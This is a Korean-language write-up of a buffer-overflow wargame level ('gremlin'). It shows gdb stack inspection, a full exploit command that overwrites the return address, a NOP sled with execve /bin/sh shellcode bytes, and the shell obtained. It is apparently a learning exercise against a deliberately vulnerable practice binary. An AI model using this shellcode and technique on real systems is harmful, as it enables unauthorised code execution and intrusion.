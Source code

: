 argv[1]을 이용하여 bof하기
===

# Core Principle

argv[1]이후의 위치에 쉘 코드를 넣고 ret에 쉘코드가 들어가 있는 위치를 넣어서 쉘 코드를 실행시킨다.

# Result

이 문제에서 버퍼의 크기가 256이므로 260만큼 더미를 넣어서 ret값을 바꾼다.

이 점을 이용해 2개의 입력값 중 앞에 있는 값은 264개의 더미를 넣고 뒤에 있는 값의 주솟값을 찾는다.

> (gdb)  r &#96;python -c "print 'A'*260+'BBBB'"&#96; &#96;python -c "print 'CCCC'*20"&#96;
>
> Breakpoint 1, 0x8048430 in main ()
> (gdb) x/100x $esp
>
> ~중략~
>
> 0xbffffc4c:     0x41414141      0x41414141      0x41414141      0x41414141
> 0xbffffc5c:     0x41414141      0x42414141      0x00424242      0x43434343
> 0xbffffc6c:     0x43434343      0x43434343      0x43434343      0x43434343

저 실행때의 결과를 보고 0xbffffc6c로 좌표를 설정했지만 다시 확인 해 보았을 때는 0xbffffc5c가 적합해 보여서 5c로 바꾸었다.

> [gate@localhost gate]$ ./gremlin &#96;python -c "print 'A'*260 + '\x5c\xfc\xff\xbf' "&#96; &#96;python -c "print '\x90'*20+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' "&#96;
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\▒▒▒
> bash$ info
> info: Terminal type &#96;dumb' is not smart enough to run Info.
> bash$ my-pass
> euid = 501
> hello bof world
> bash$

위 처럼 쉘을 따는데 성공한 것을 볼 수 있다.

# Learned

> argv의 한 공간에 쉘코드를  넣어서도 쉘을 딸 수 있다.
>
> 슬라이드가 길었다면 좌표를 바꾸는 일은 하지 않았을 것이다. 앞으로는 충분히 긴 슬라이드를 이용하자.